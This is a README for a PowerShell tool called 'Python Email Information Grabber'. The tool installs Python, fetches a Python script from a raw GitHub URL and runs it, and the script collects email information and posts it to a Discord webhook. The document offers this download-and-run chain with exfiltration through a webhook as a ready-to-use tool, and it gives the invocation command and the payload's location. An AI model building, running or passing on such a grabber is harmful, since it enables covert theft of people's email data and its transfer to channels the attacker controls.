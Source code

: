 # Python Email Information Grabber
![](https://img.shields.io/badge/-PowerShell-blue-Python-purple)

This PowerShell script is designed to automate the process of downloading Python and its dependencies to run a Python script that collects email information. The Python script is specifically intended to be used with a Discord webhook for sending the collected data.

## Prerequisites
Before using this script, ensure you have the following:

- Windows operating system
- An active internet connection

## How to Use
1. Open a PowerShell terminal.
2. Save the script to a local file with a `.ps1` extension.
3. Run the script by calling the `Grab-Emails` function. Optionally, you can provide a Discord webhook URL as a parameter to the function if you want to customize it. If no webhook URL is provided, the script will use a default webhook URL.

```powershell
Grab-Emails -wbhk "YOUR DISCORD WEBHOOK HERE"
```

## Functionality
The script provides the following functionality:

1. **InstallPython**: Downloads and installs Python version 3.9.6 for Windows. If Python is already installed, it will skip this step.
2. **InstallPipPackages**: Installs the required Python packages - `requests` and `pyautogui` - using `pip3`.
3. **RunPythonScript**: Downloads the Python script from a GitHub repository and runs it using the installed Python.

## Notes
- If Python is already installed on your system, the script will not reinstall it and will proceed with the existing installation.
- If `pip` is not installed, the script will install it to ensure that the required packages are installed properly.
- The script uses a default Python script located in the GitHub repository: [Adv Email Info Grab & Upload/emailgrabber.py](https://raw.githubusercontent.com/calinux-py/Python/main/Adv%20Email%20Info%20Grab%20%26%20Upload/emailgrabber.py). If you want to use a different Python script, you can replace the URL in the `RunPythonScript` function.
- The script replaces the Discord webhook URL placeholder (`YOUR DISCORD WEBHOOK HERE`) in the Python script with the provided webhook URL, allowing you to customize the Discord channel to which the email information is sent. If no webhook URL is provided, the script will use the default placeholder.
